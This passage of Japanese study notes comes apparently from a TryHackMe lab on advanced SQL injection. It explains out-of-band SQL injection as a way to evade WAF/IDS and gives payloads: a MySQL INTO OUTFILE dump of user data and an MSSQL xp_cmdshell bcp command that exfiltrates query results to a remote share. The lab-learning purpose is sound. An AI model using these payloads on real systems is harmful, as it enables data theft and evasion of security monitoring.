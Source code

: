 本当のタブを入力してエンコードしないといけない
![](https://i.imgur.com/vEM6snp.png)

作成したペイロードを実行することで、スペースフィルターバイパスできた
![](https://i.imgur.com/vloehUE.png)

# Out-of-band SQL Injection
- 帯域外（OOB）SQLインジェクション
- 直接的または従来のメソッドが効果的でない場合に、ペンテスターやレッドチームがデータ抽出や悪意のあるアクションを実行するために使用する攻撃テクニック
- 攻撃者が攻撃とデータ取得のために同じチャネルに依存するインバンドSQLインジェクションとは異なり、帯域外SQLインジェクションはペイロードの送信と応答の受信に別々のチャネルを利用する
- 帯域外テクニックは、データベースサーバーがアクセスできる可能性のあるHTTPリクエスト、DNSクエリ、SMBプロトコル、その他のネットワークプロトコルなどの機能を活用し、攻撃者がファイアウォール、侵入検知システム、その他のセキュリティ対策を回避できるようにする
- 帯域外SQLインジェクションの主な利点の1つは、その**ステルス性と信頼性**
- 異なる通信チャネルを使用することで、攻撃者は検出のリスクを最小限に抑え、侵害されたシステムとの永続的な接続を維持できる


OOB を選ぶ理由
- **サニタイズや制限が厳しい場合**  
	- ストアドプロシージャ、出力エンコード、アプリ側の制約などによりサーバーからの直接応答が封じられていても、DNS や HTTP といった別経路ならデータを流せる
- **IDS／WAF の回避**  
	- IDSやWAFは怪しいSQL応答を監視しますが、DNSやSMBといったプロトコルは対象外の場合がある
	- OOB経路なら検知されにくい
- **セグメント間通信が制限された環境**
	- ファイアウォール越しや別ネットワーク内のDBなど、攻撃者が直接つなげないケースでもOOBなら可能性がある
![process flow of OOB injection](https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/62a7685ca6e7ce005d3f3afe-1717060822273)
引用 : https://tryhackme.com/room/advancedsqlinjection


## データベースごとのテクニック

MySQL・MariaDB
- `SELECT ... INTO OUTFILE`または`load_file`コマンドを使用できる
	- https://dev.mysql.com/doc/refman/8.0/en/select-into.html
	- https://dev.mysql.com/doc/refman/8.0/en/string-functions.html#function_load-file
- 攻撃者はクエリの結果をサーバーのファイルシステム上のファイルに書き込むことができる
- データベースサーバー上で実行されているSMB共有またはHTTPサーバーを介してこのファイルにアクセスし、それによって代替チャネルを介してデータを抽出できる
例
```sql
SELECT sensitive_data FROM users INTO OUTFILE '/tmp/out.txt';
```

Microsoft SQL Server (MSSQL)
- `xp_cmdshell`を使用する
	- https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver16
- ネットワーク共有からアクセス可能なファイルにデータを書き込むために活用できる
	- まあ、普通にコマンド使えるから便利だよね
```sql
EXEC xp_cmdshell 'bcp "SELECT sensitive_data FROM users" queryout "\\10.10.58.187\logs\out.txt" -c -T';
```
